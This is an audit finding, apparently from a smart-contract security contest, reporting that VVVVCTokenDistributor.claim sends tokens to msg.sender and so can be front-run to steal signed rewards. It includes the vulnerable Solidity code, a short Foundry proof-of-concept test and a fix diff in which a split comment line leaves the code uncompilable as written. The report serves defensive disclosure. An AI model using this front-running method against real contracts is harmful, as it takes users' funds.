 Dry Opal Aphid

High

# `VVVVCTokenDistributor.claim` can be front-run to steal rewards

# Description

`VVVVCTokenDistributor.claim` is vulnerable to front-running attacks, allowing an attacker to claim funds intended for a user. Even though all claim transactions require approval from the centralized system, an approved claim transaction can be front-run, resulting in the funds being transferred to the attacker.

The vulnerability exists because the rewards are sent directly to the caller using `msg.sender`.

```solidity
    /**
        @notice Allows any address which is an alias of a KYC address to claim tokens across multiple rounds which provide that token
        @param _params A ClaimParams struct describing the desired claim(s)
     */
    function claim(ClaimParams memory _params) public {
        if (claimIsPaused) {
            revert ClaimIsPaused();
        }

        if (_params.projectTokenProxyWallets.length != _params.tokenAmountsToClaim.length) {
            revert ArrayLengthMismatch();
        }

        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }

        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }

        // update nonce
        nonces[_params.kycAddress] = _params.nonce;

        // define token to transfer
        IERC20 projectToken = IERC20(_params.projectTokenAddress);

        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                msg.sender, // <@ tokens are transferred directly to attacker who front runs the claim transaction
                _params.tokenAmountsToClaim[i]
            );
        }

        emit VCClaim(
            _params.kycAddress,
            _params.projectTokenAddress,
            _params.projectTokenProxyWallets,
            _params.tokenAmountsToClaim,
            _params.nonce
        );
    }
```

# POC

Below POC shows that attacker can pre-construct the `VVVVCTokenDistributor.ClaimParams` struct and data parameters to front-run the claim transaction and claim user rewards for themselves.

Add it to `VVVVCTokenDistributor.unit.t` and run `forge test --mt testFrontRunClaim`

```solidity
    function testFrontRunClaim() public {
        address alice = makeAddr("address");
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        claimAsUser(alice, claimParams);
        assertTrue(ProjectTokenInstance.balanceOf(alice) == claimAmount);
    }

```

# Code Snippet

https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L133

# Impact

Attacker can front run claim function and steal user funds

# Recommendation

Send the rewards directly to the kyc address which has been approved by the protocol or consider adding a `ClaimParams.receiverAddress` param which will be hashed and signed

```diff
    /**
        @notice Allows any address which is an alias of a KYC address to claim tokens across multiple rounds which provide that token
        @param _params A ClaimParams struct describing the desired claim(s)
     */
    function claim(ClaimParams memory _params) public {
        if (claimIsPaused) {
            revert ClaimIsPaused();
        }

        if (_params.projectTokenProxyWallets.length != _params.tokenAmountsToClaim.length) {
            revert ArrayLengthMismatch();
        }

        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }

        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }

        // update nonce
        nonces[_params.kycAddress] = _params.nonce;

        // define token to transfer
        IERC20 projectToken = IERC20(_params.projectTokenAddress);

        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
-                msg.sender, // <@ tokens are transferred directly to attacker who front runs the claim
+                _params.kycAddress, // Send the rewards directly to the kyc address which has been approved by the protocol
                transaction
                _params.tokenAmountsToClaim[i]
            );
        }

        emit VCClaim(
            _params.kycAddress,
            _params.projectTokenAddress,
            _params.projectTokenProxyWallets,
            _params.tokenAmountsToClaim,
            _params.nonce
        );
    }
```
